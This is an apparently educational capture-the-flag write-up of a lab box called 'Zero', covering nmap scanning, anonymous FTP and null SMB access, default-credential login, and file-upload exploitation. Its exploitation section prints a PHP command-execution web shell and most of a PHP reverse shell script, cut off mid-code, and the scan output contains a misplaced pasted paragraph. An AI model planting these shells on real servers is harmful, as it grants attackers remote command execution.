








# Zero

Welcome to the Zero write up.

- [Zero](#zero)
  - [Recon Phase](#recon-phase)
  - [Enumeration Phase](#enumeration-phase)
    - [FTP Port 21](#ftp-port-21)
    - [SMB](#smb)
      - [smbclient](#smbclient)
      - [smbmap](#smbmap)
    - [HTTPs](#https)
      - [Port 80](#port-80)
      - [Port 443/4629](#port-4434629)
      - [Port 5357](#port-5357)
      - [Port 9998](#port-9998)
  - [Exploitation Phase](#exploitation-phase)
    - [HTTPS Port 443 /4629](#https-port-443-4629)
      - [Option 1 Command injection page](#option-1-command-injection-page)
      - [Option 2 reverse shell](#option-2-reverse-shell)
      - [After picking an option](#after-picking-an-option)
    - [HTTP Port 9998 Smartermail](#http-port-9998-smartermail)
      - [Metasploit](#metasploit)
      - [Manual Exploitation](#manual-exploitation)
  - [Getting The Flag](#getting-the-flag)

## Recon Phase

like every good spy movie, we need to recon the target. During the Recon Phase,
the focus is on passive information gathering to understand the target's
environment without directly interacting with it. This involves collecting
publicly available data such as domain names, IP addresses, email addresses,
employee information, and social media profiles associated with the target
organization. Techniques such as open-source intelligence (OSINT),
DNS enumeration, WHOIS queries, and reconnaissance tools aid in gathering
this information.


The flyer gave us a QR code that goes to the PwnToOwn page. This has lot of
details about the challenge.

- We need to connect to the WIFI to even see the PwnToOwn machine.
- WIFI SSID = `PwnToOwn`, WIFI Password = `ZTW2024!`
- There are many of the same two boxes hosted on the machine.
- The box seems to be hosted on the end of the subnet.
- IP of the boxes ranges from `10.0.0.247` to `10.0.0.254`
- Need to submit to the leader board that is hosted on `http://10.0.0.14:80`

## Enumeration Phase

During the Enumeration Phase of a penetration test, the goal is to gather as
much information as possible about the target network or system. This involves
actively probing the target to identify potential vulnerabilities,
misconfigurations, or weaknesses. Techniques such as port scanning, service
identification, banner grabbing, and OS fingerprinting are commonly employed
to enumerate the target's infrastructure.

Since we have a list of active machines on the network. We can now pick the
machines, that we can attack because of the recon phase we that there are
duplicates of the boxes. In this write up we are going to pick `10.0.0.247`
as our zero machine.

```bash
sudo nmap -A -p- -sS  10.0.0.247
```

- `-A` - Enable OS detection, version detection, script scanning, and traceroute
- `-sS` - This option tells nmap to only complete half of the three-way this
- will tell ports are open because an open port will send a SYN-ACK back to
  nmap.
- `-p-` - Tells nmap to check every port from 1-65535. This will check every
  port that can possibly be opened.

**Results:**

```
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-02-07 14:52 EST
Nmap scan report for Since we have a list of active machines on the network. We can now pick the
machines, that we can attack because of the recon phase we that there are
duplicates of the boxes. In this write up we are going to pick `10.0.0.247`
as our zero machine.
Host is up (0.0039s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE          VERSION
21/tcp    open  ftp              Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 01-19-24  01:33PM                  322 Note for dev.txt
| 01-19-24  01:37PM                   89 somethingveryinportin.txt
|_01-19-24  01:33PM                  121 stuff.txt
80/tcp    open  http             Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
135/tcp   open  msrpc            Microsoft Windows RPC
139/tcp   open  netbios-ssn      Microsoft Windows netbios-ssn
443/tcp   open  ssl/http         Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-title: Login :: Threatlocker Not Vulnerable Web App
|_Requested resource was login.php
| http-robots.txt: 1 disallowed entry
|_/
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql            MariaDB (unauthorized)
4629/tcp  open  http             Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-robots.txt: 1 disallowed entry
|_/
| http-title: Login :: Threatlocker Not Vulnerable Web App
|_Requested resource was login.php
5040/tcp  open  unknown
5357/tcp  open  http             Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
7680/tcp  open  pando-pub?
9089/tcp  open  ssl/sqlexec-ssl?
| ssl-cert: Subject: commonName=Zero/organizationName=VMware, Inc./stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:Zero, IP Address:192.168.1.135
| Not valid before: 2024-01-19T18:26:42
|_Not valid after:  2025-01-18T18:26:42
| fingerprint-strings:
|   DNSStatusRequestTCP:
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 7 Feb 2024 19:53:27 GMT
|     Connection: close
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 16
|     invalid value 0
|   FourOhFourRequest:
|     HTTP/1.1 501 Not Implemented
|     Date: Wed, 7 Feb 2024 19:53:34 GMT
|     Connection: close
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 0
|   SMBProgNeg:
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 7 Feb 2024 19:53:34 GMT
|     Connection: close
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 16
|     invalid value 0
|   WMSRequest:
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 7 Feb 2024 19:53:40 GMT
|     Connection: close
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 16
|_    invalid value 0
|_ssl-date: TLS randomness does not represent time
9998/tcp  open  http             Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
| uptime-agent-info: HTTP/1.1 400 Bad Request\\x0D
| Content-Type: text/html; charset=us-ascii\\x0D
| Server: Microsoft-HTTPAPI/2.0\\x0D
| Date: Wed, 07 Feb 2024 19:55:45 GMT\\x0D
| Connection: close\\x0D
| Content-Length: 326\\x0D
| \\x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""<http://www.w3.org/TR/html4/strict.dtd>">\\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\\x0D
|_</BODY></HTML>\\x0D
17001/tcp open  remoting         MS .NET Remoting services
49664/tcp open  msrpc            Microsoft Windows RPC
49665/tcp open  msrpc            Microsoft Windows RPC
49666/tcp open  msrpc            Microsoft Windows RPC
49667/tcp open  msrpc            Microsoft Windows RPC
49668/tcp open  msrpc            Microsoft Windows RPC
49669/tcp open  msrpc            Microsoft Windows RPC
49670/tcp open  msrpc            Microsoft Windows RPC
49671/tcp open  msrpc            Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
SF-Port9089-TCP:V=7.94SVN%T=SSL%I=7%D=2/7%Time=65C3DFB6%P=x86_64-pc-linux-
SF:gnu%r(DNSStatusRequestTCP,A0,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nDat
SF:e:\\x20Wed,\\x207\\x20Feb\\x202024\\x2019:53:27\\x20GMT\\r\\nConnection:\\x20clo
SF:se\\r\\nContent-Type:\\x20text/plain;\\x20charset=utf-8\\r\\nContent-Length:\\
SF:x2016\\r\\n\\r\\ninvalid\\x20value\\x200\\x20")%r(SMBProgNeg,A0,"HTTP/1\\.1\\x20
SF:400\\x20Bad\\x20Request\\r\\nDate:\\x20Wed,\\x207\\x20Feb\\x202024\\x2019:53:34\\
SF:x20GMT\\r\\nConnection:\\x20close\\r\\nContent-Type:\\x20text/plain;\\x20chars
SF:et=utf-8\\r\\nContent-Length:\\x2016\\r\\n\\r\\ninvalid\\x20value\\x200\\x20")%r(
SF:FourOhFourRequest,93,"HTTP/1\\.1\\x20501\\x20Not\\x20Implemented\\r\\nDate:\\x
SF:20Wed,\\x207\\x20Feb\\x202024\\x2019:53:34\\x20GMT\\r\\nConnection:\\x20close\\r
SF:\\nContent-Type:\\x20text/plain;\\x20charset=utf-8\\r\\nContent-Length:\\x200
SF:\\r\\n\\r\\n")%r(WMSRequest,A0,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nDate:
SF:\\x20Wed,\\x207\\x20Feb\\x202024\\x2019:53:40\\x20GMT\\r\\nConnection:\\x20close
SF:\\r\\nContent-Type:\\x20text/plain;\\x20charset=utf-8\\r\\nContent-Length:\\x2
SF:016\\r\\n\\r\\ninvalid\\x20value\\x200\\x20");
MAC Address: 00:15:5D:02:C3:04 (Microsoft)
No exact OS matches for host (If you know what OS is running on it, see <https://nmap.org/submit/> ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/7%OT=21%CT=1%CU=44300%PV=Y%DS=1%DC=D%G=Y%M=00155D
OS:%TM=65C3E04F%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=108%TI=I%CI=I%II=
OS:I%SS=S%TS=U)SEQ(SP=FC%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M5B4
OS:NW8NNS%O2=M5B4NW8NNS%O3=M5B4NW8%O4=M5B4NW8NNS%O5=M5B4NW8NNS%O6=M5B4NNS)W
OS:IN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=F
OS:FFF%O=M5B4NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%D
OS:F=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

To many new pen testers this might look overwhelming. But if you start with the
port you know, it will make this process much easier. In this case the most
important port to test are the any http and FTP since though are easy to
start with.

### FTP Port 21

During the Nmap scan the `-A` option was able to find out that the FTP server had
anonymous login enable, and that it had three files.  The first thing to do,
is to connect to the server with this command:

```bash
ftp anonymous@10.0.0.247
```

> Note: When you connect to the server it's going to ask for a password, If the
> Anonymous user is enabled anything can be the password.

The next command to run the `dir` command to list the what's on the server.
Now we can see the following files:

- Note for dev.txt
- somethingveryinportin.txt
- stuff.txt

But you won't be able to read the files. So, we have to download the files with
the `get` command.

```
get Note\\ for\\ dev.txt
get somethingveryinportin.txt
get stuff.txt
```

After the download the files, we can cat the files. These are what are in each
file:

**Note for dev.txt**

```
Nick C.

Hey my team had problems with trying to connecting to the machine with a VM.
The problem was that the VM was not in bridge mode.
If you run into the same problem make sure that the vm is in bridge mode.
Best,
NetSec Team
```

**Somethingveryimportin.txt**

```
Ray's shopping list

1.threatlocker
2.new keyboard
3.food
4.a very very small tree
5.Change the web server user and password from admin:password to something
better.
```

**stuff**

```
Ivan F,
To do:
        Establish SIEM
        Back Up Web Server
        Remove SmarterMail
        Install ThreatLocker (ASAP)
```

From this we learn that we should look for a web server page that can be login
with `admin:password` and that SmarterMail might be something to look into and
the last thing if our VMs are not on a bridge adapter then the Boxes can't
connect back to our attack machine.

### SMB

Since port 139 and 445 are open we can guess that the windows machine have an
SMB share open. we can use the `enum4linux` command to get an idea on what
happening with the SMB services.

``` bash
enum4linux -a <Target>
```

- `-a` This will do all the simple enumeration for the SMB service.

After running the `enum4linux` command we can see that the SMB service allows
for this username `''` and password `''`. This means that anyone can login to the
SMB services.

To login with an null user there are two way login on the smb service with kali.

1. smbclient
2. smbmap

#### smbclient

To use `smbclient` command to connect to the SMB service we need to use this
command to list the directory on the service.

```bash
smbclient --no-pass -L //<IP>
```

- `--no-pass` - This tells `smbclient` to send null as the password.
- `-L`        - This tells `smbclient` to list the files on the Share.

Once run this command we can see that the SMB services is hosting a folder
called `Stuff`

Now we can use this to login on the SMB share.

```bash
smbclient --no-pass //<IP>/Stuff
```

Once you are in you can use `dir` or `ls` command to list the files on the
share. It seems that the files in the share is the same as the ones on the
FTP service.

#### smbmap

To use `smbmap` command to connect to the SMB service we need to use this
command to list the directory on the service.

```bash
smbmap -H <IP> -p 445
```

- `-H` - This tells smbmap what host to connect to.
- `-p` - This tells smbmap what port to connect to.

Now that we can see want in the SMB share we can see the `Stuff` folder. And to
look into the folder, we can use

```bash
smbmap -H <IP> -p 445 -r Stuff
```

This will show what in the `Stuff` directory and its the exact same as the ftp server.

### HTTPs

Hosting web server are the most common way hackers get into a system because
it can be access from anywhere.

#### Port 80

When we connect to port 80, we get the default Windows IIS page.



When viewing the source page, it does reflect that the pages is the default
window IIS page.

#### Port 443/4629

On both port 443 and 4629 is a ThreatLocker login page.



We can try the admin:password, which works. now we get the home page of the
ThreatLocker web page.


we can see a file upload page now we can move to the exploit phase now

> If you are having problems connecting to port 443, Try using
> `https://<Machine IP>`
> If at some point if the site stop responding to you, you might have to find
> another zero machine. This is due to the use a reverse shell being used on
> that machine by another player.

#### Port 5357

On this web page, we get an error for the web page.



#### Port 9998

On this web page, we see the Smartermail web page. we can try the
`admin:password` we got but doesn't work.



The first thing to do is to start googling what is smartermail. Using sites
like CVE and searchsploit we can use the keyword `smartermail` can find
vulnerability that smartmail has. From our research there are a few
vulnerabilitys that smartermail has. Lets take a look at the source
code of the web page.



The thing that we saw is that the var stProductBuild is 6919 and that stProductVersion is 100.0.6919. This

## Exploitation Phase

### HTTPS Port 443 /4629

Get the Threatlocker login page.

#### Option 1 Command injection page

This payload is the PHP cmd payload from [ReveShell.com](https://www.revshells.com/)
This will make our file upload vulnerability and turn it into a command
injection vulnerability, where we can put commands just like if we had a reverse shell.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

#### Option 2 reverse shell

This payload is the PHP Ivan Sincek payload from
[ReveShell.com](https://www.revshells.com/) and this will make a reverse shell
to our attacker machine.

```php
<?php
// Copyright (c) 2020 Ivan Sincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = 'powershell';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        } else if (posix_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str_replace('<', '&lt;', $data);
        $data = str_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot read from ${name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot write to ${name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status['pid'] . "\n");
                    do {
						$status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes[1], $pipes[2]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num_changed_streams = @stream_select($streams['read'], $streams['write'], $streams['except'], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num_changed_streams === false) {
                            echo "STRM_ERROR: stream_select() failed\n"; break;
                        } else if ($num_changed_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in_array($socket  , $streams['read'])) { $this->rw($socket  , $pipes[0], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
